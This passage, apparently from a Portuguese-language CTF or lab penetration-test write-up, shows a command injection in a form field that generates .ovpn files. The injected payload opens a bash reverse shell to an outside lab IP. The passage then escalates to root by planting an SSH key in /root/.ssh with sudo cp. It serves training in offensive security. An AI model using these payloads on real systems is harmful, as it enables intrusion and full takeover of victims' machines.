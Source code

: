 Observamos que, ao submeter o formulário via botão `submit`, a aplicação gera automaticamente um arquivo `.ovpn`, cujo nome segue o padrão `nome_enviado.ovpn`.  
Explorando essa funcionalidade, testamos a execução de comandos no campo de entrada e, com uma payload especialmente construída, conseguimos obter uma reverse shell da aplicação:  
`$(/bin/bash -c "/bin/bash -i >& /dev/tcp/10.50.87.116/9002 0>&1")`
![](img/96cbb6231b3bac72f27b9c37a5d645c6.png)
## 3.3 Escalando Privilégios na Rede 12

**Etapa 1**: Gerar chaves SSH na máquina do atacante:
`ssh-keygen -f shell_key -N ''`

**Etapa 2**: No servidor (máquina da vítima), criei o diretório `.ssh` e arquivo authorized_keys la no `/root`

```
mkdir /tmp/.ssh
/bin/cp shell_key.pub /tmp/.ssh/authorized_keys
sudo /bin/cp -r /tmp/.ssh /root/
```

**Etapa 3**: Agora é só conectar.
`ssh -i shell_key root@10.200.89.12`